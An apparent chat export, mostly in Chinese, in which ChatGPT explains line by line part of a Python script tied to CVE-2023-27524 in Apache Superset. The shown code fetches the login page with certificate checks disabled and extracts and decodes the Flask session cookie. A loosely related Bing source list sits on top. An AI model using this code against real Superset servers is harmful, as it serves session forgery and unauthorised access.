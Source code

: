 ¹: [CVE-2023-27524](^1^)

源: 与必应的对话， 2023/8/18
(1) 看不懂代码？让 AI 来帮你翻译！| Github Copilot Labs - 掘金. https://juejin.cn/post/7081301239593435149.
(2) 看不懂代码？让 AI 来帮你翻译！| Github Copilot Labs - 掘金. https://juejin.cn/post/7081301239593435149.
(3) 看不懂代码怎么办？有没有可以解释代码或者其他方法可以看懂 .... https://www.zhihu.com/question/369988824.
(4) mapreduce 实例代码详解（一行一行的注释） - CSDN 博客. https://blog.csdn.net/qq_44823756/article/details/111758706.
(5) 深度学习代码有救了！我发现了一个逐行解读代码的网站 .... https://www.bilibili.com/video/BV1M94y1B7qX/.

---

ChatGPT

当然，接下来我们继续解释代码的每一行。

```python
        u = args.url.rstrip("/") + "/login/"

        headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:101.0) Gecko/20100101 Firefox/101.0"
        }

        resp = requests.get(
            u, headers=headers, verify=False, timeout=30, allow_redirects=False
        )
        if resp.status_code != 200:
            print(
                f"Error retrieving login page at {u}, status code: {resp.status_code}"
            )
            return
```

这段代码主要用于获取 Superset 登录页面。

- `u = args.url.rstrip("/") + "/login/"`: 构建 Superset 登录页面的 URL，`rstrip("/")` 是为了确保 URL 末尾没有斜杠。

- `headers = { ... }`: 创建一个 HTTP 请求头，模拟一个用户代理为 Mozilla Firefox 的请求。

- `resp = requests.get(u, headers=headers, verify=False, timeout=30, allow_redirects=False)`: 发送一个 GET 请求到构建的 URL，使用定义的请求头。`verify=False` 禁用了 SSL 证书验证，`timeout=30` 设置了请求的超时时间，`allow_redirects=False` 禁止了重定向。

- `if resp.status_code != 200:`: 如果响应的状态码不是 200（即成功），则输出错误消息，并中止程序运行。

```python
        session_cookie = None
        for c in resp.cookies:
            if c.name == "session":
                session_cookie = c.value
                break

        if not session_cookie:
            print("Error: No session cookie found")
            return

        print(f"Got session cookie: {session_cookie}")

        try:
            decoded = session.decode(session_cookie)
            print(f"Decoded session cookie: {decoded}")
        except:
            print("Error: Not a Flask session cookie")
            return
```
